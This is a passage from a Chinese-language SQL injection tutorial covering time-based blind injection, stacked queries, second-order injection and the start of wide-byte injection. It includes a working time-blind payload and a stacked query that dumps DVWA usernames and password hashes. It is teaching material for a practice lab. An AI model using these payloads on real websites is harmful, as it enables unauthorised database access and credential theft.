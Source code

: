 先判断字段值的长度为 32，这么长那看来密码是用 md5 加密，再用 ASCII 码方式破解花费的时间需要比较长



#### 时间盲注

界面返回只有返回 true（比如页面提交信息之后，只返回“感谢你的提交”）没有其他信息。

可以通过 `if(condition, true_execution, false_execution) 和 ` `sleep(second)` 函数，通过时间延迟来推断。

```sql
1' and if(ascii(substr(database(),1,1))=100,sleep(5),1);#
```

后续过程同布尔盲注。

### 堆叠查询注入

批量执行 SQL 语句

```sql
mysql> show databases;select user, password from users;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+----------------------------------+
5 rows in set (0.00 sec)
```

使用条件：为了防止堆叠注入，一些网站的 API、数据库引擎或者权限会做限制，一次只能执行一条 SQL 语句。比如 PHP 为了防止 SQL 注入，会调用 `mysqi_query()` 函数，只能执行一条语句。

### 二次注入

二次注入指数据库在存入数据时做了校验和处理，但是在取出数据时没有做校验和处理，导致的二次注入。

![](https://img.wukaipeng.com/2023/1010-085957-image-20231010085956378.png)

### 宽字节注入

🧠 概念
